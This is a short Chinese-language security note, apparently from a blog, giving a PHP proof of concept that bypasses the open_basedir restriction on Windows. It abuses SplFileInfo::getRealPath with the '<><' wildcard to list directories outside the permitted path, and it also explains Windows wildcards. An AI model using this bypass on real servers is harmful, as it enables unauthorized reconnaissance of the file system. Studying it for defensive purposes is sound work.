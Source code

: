 ```php
<?php
ini_set('open_basedir', dirname(__FILE__));
printf("<b>open_basedir: %s</b><br />", ini_get('open_basedir'));
$basedir = 'D:/test/';
$arr = array();
$chars = 'abcdefghijklmnopqrstuvwxyz0123456789';
for ($i=0; $i < strlen($chars); $i++) { 
    $info = new SplFileInfo($basedir . $chars[$i] . '<><');
    $re = $info->getRealPath();
    if ($re) {
        dump($re);
    }
}
function dump($s){
    echo $s . '<br/>';
    ob_flush();
    flush();
}
?>
```

当然由于<><是Windows特有的通配符。所以该POC只能在Windows环境下使用。Linux下只能暴力破解。

>在windows中可以使用通配符“* ”、“? ”查找文件，对于相同字符开头的单词和相同字符结尾的单词可以用“<”和“ >”通配符查找单词。
>
>1. 如果要查找： 任意单个字符 ：
>     键入 ? 例如，s?t 可查找“sat”和“set”……。
>2. 任意字符串 :
>     键入 * 例如，s*d 可查找“sad”和“started”……。
>3. 单词的开头
>     键入 < 例如，<(inter) 查找“interesting”和“intercept”……，但不查找“splintered”。
>4. 单词的结尾
>     键入 > 例如，(in)> 查找“in”和“within”……，但不查找“interesting”
>
>linux通配符
>
>![img](daydayup.assets/v2-8ad24c5e1b91a5741444e98851b94b01_r.jpg)
